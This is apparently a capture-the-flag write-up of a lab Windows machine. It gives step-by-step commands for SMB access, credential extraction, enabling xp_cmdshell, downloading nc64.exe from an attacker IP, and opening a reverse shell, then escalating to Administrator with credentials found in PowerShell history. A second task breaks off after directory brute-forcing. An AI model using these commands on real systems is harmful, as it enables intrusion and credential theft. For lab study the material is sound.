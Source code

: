 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP
xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
   ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
    ```

In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

![scan port](./image/Task5_get_user.jpg)

9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe
.\winPEASx64.exe
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

   We got the password,
   
   $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
   
11.  Login as Administrator

     We use impacket pasexec.py:

     ```bash
     python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
     ```

     or use the Evil-WinRm:

    ```bash
    evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
    ```

    After this, we can read the root flag:

    ```bash
    cd C:\Users\Administrator\Desktop
    type root.txt
    ```

    Get the root flag: b91ccec3305e98240082d4474b848528.

   ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can log in the page successfully.

   
   
   


     
    
